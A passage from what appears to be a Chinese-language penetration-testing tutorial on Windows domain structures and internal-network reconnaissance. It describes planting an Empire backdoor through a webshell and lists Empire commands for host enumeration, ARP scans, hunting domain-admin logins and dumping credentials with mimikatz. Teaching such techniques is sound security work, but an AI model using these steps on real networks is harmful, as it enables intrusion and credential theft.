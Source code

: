 一台台计算机组成一个域，称为单域。

出于管理或其他需求，可能将一个域分成多个域来管理，就像公司分成几个部分一样，那么公司层面的域称为父域，部门层面的域称为子域。

父子域与域名中的一级域名、二级域名的概念类似，比如 test.baidu.com 是 baidu.com 的二级域，父域是 baidu.com，子域是 test.baidu.com。

这些父子域称成了域树，一个个域树建立起来的组合称为域森林，简单域林。

![Drawing 12.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEViAKOJIAAEtcglxU5U255.png)

图 13 域关系图

### 内网信息收集

前面已经介绍一些获取域信息的常见命令，包含如何判断是否存在域、域名查询、用户名查询、定位域控制器等方法，因此这些内容不再赘述。

下面介绍两款比较自动化获取内网信息的工具：Empire 和 BloodHound。除此之外还有其他工具，比如 Metasploit、PowerView、Seatbelt、WMIC 等等，你可以在后面自行搜索相关工具和资料继续扩展学习。

#### 1.Empire 后渗透利器

这里推荐一款叫 [Empire](https://github.com/EmpireProject/Empire) 的内网渗透利器来自动收集内网信息。你可以先用 Empire 生成后门，然后上传到目标机器上执行，如果你已经拿到 webshell，那可以先把后门可执行文件放置在外网服务器上，再用 webshell 下载执行。若是纯内网机器，那就通过外网 Web 服务器下载好后，再传给内网机器。

下面介绍一些常用的功能模块和使用命令：

复制代码

```
＃收集主机信息，包括本机用户、域组成员、系统基本信息、共享信息等等

> usemodule situational_awareness/host/winenum

> execute

＃探测内网存活机器

> usemodule situational_awareness/network/arpscan

> set Range 192.168.52.0-192.168.52.255

> execute

＃搜索域管理员登录的机器

> usemodule situational_awareness/network/powerview/user_hunter

> execute

＃获取主机账号和密码

> mimikatz

> creds
```

